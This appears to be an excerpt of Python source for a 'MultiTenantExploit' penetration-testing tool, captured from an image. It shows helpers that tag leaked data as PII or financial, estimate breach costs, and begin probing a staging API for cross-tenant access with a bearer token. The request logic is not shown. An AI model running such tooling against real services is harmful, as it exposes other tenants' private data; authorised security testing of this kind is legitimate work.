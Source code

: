 ```python
    
    def extract_sensitive_info(self, data: Dict) -> Dict:
        """Extract and categorize sensitive information"""
        sensitive_categories = {
            'pii': ['email', 'name', 'phone', 'address'],
            'financial': ['card', 'payment', 'billing', 'revenue'],
            'security': ['alert', 'vulnerability', 'incident', 'threat'],
            'compliance': ['audit', 'violation', 'regulation', 'compliance']
        }
        
        found_sensitive = {}
        data_str = json.dumps(data).lower()
        
        for category, keywords in sensitive_categories.items():
            if any(keyword in data_str for keyword in keywords):
                found_sensitive[category] = True
        
        return found_sensitive
    
    def generate_impact_report(self, exploit_results: List[Dict]) -> Dict:
        """Generate business impact assessment"""
        total_exposed_records = sum(result['data_count'] for result in exploit_results)
        exposed_tenants = len(set(result['target_tenant'] for result in exploit_results))
        
        impact_assessment = {
            'total_exposed_records': total_exposed_records,
            'exposed_tenants': exposed_tenants,
            'data_categories': {
                'pii': sum(1 for r in exploit_results if r['sensitive_info'].get('pii')),
                'financial': sum(1 for r in exploit_results if r['sensitive_info'].get('financial')),
                'security': sum(1 for r in exploit_results if r['sensitive_info'].get('security')),
                'compliance': sum(1 for r in exploit_results if r['sensitive_info'].get('compliance'))
            },
            'estimated_financial_impact': {
                'gdpr_fines': min(20000000, total_exposed_records * 150),  # €150 per record, max €20M
                'customer_churn': exposed_tenants * 50000,  # $50K annual value per customer
                'regulatory_costs': 500000 + (exposed_tenants * 25000),
                'legal_liability': total_exposed_records * 50  # $50 per exposed record
            }
        }
        
        return impact_assessment

# Usage example (FOR AUTHORIZED TESTING ONLY)
if __name__ == "__main__":
    print("🔍 Multi-Tenant Security Assessment Tool")
    print("⚠️  FOR AUTHORIZED PENETRATION TESTING ONLY")
    
    # Initialize with legitimate token from authorized test account
    exploit = MultiTenantExploit(
        base_url="https://staging.isectech.com",
        token="eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9..."
    )
    
    # Test cross-tenant data access
    resources = ['alerts', 'assets', 'users', 'threats']
    all_results = []
    
    for resource in resources:
        print(f"\n🔍 Testing cross-tenant access for {resource}...")
```